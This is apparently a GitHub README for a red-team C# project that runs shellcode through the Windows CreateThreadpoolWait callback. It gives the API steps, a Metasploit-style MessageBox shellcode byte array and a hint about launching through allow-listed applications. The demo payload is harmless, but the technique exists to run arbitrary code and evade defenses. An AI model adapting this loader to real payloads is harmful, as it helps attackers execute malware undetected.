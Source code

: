 # CreateThreadpoolWait_ShellcodeExecution_CSharp

- Shellcode execution via CreateThreadpoolWait
- Only tested on Win10/x64.
- Steps
	1. Create an event with API "CreateEvent", and it return a event handle.
	2. Allocate a memory region for shellcode, in this case is buf1.
	3. Using API "CreateThreadpoolWait" to create a wait object. 1st argument of the function is a callback function, that will be called once the wait ends (immediately in our case, since our waitable event is in the Signaled state from the start). We will pass the address of our shellcode (allocated in step 2) as the callback function.
	4. Using API "SetThreadpoolWait" to set wait object to the wait object created in step 3.
	5. WaitForSingleObject is used to wait for the waitable object to become Signaled, but since our event (waitable) object was created with a Signaled state in step 1, our callback function specified in step 3 is called and the shellcode is executed right away:

- buf1 down below is a messagebox.
```
	/* MessageBox */
	byte[] buf1 = new byte[323] {
		0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,
		0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
		0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
		0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
		0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,
		0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
		0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
		0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,
		0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,
		0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
		0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
		0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x3e,
		0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,
		0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
		0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,
		0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
		0x85,0x2b,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,
		0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
		0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
		0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x48,0x65,0x6c,0x6c,0x6f,
		0x2c,0x20,0x66,0x72,0x6f,0x6d,0x20,0x4d,0x53,0x46,0x21,0x00,0x4d,0x65,0x73,
		0x73,0x61,0x67,0x65,0x42,0x6f,0x78,0x00 };
```

## Usage
1. Lanch through some white list application.
![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/CreateThreadpoolWait_ShellcodeExecution.png)



## TO-DO list
NONE


## Reference link:
1. https://www.freesion.com/article/5280116706/
2. https://blog.csdn.net/weixin_43692244/article/details/100596571
3. https://blog.csdn.net/phenixyf/article/details/72328064
4. https://docs.microsoft.com/zh-tw/windows/win32/api/threadpoolapiset/nf-threadpoolapiset-setthreadpoolwait
5. https://docs.microsoft.com/zh-tw/windows/win32/api/threadpoolapiset/nf-threadpoolapiset-createthreadpoolwait
6. https://blog.csdn.net/AlickXc/article/details/44924507
7. https://buaq.net/go-46885.html
8. https://blog.51cto.com/u_13953961/3106435
9. https://www.redteam101.tech/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait
10. https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait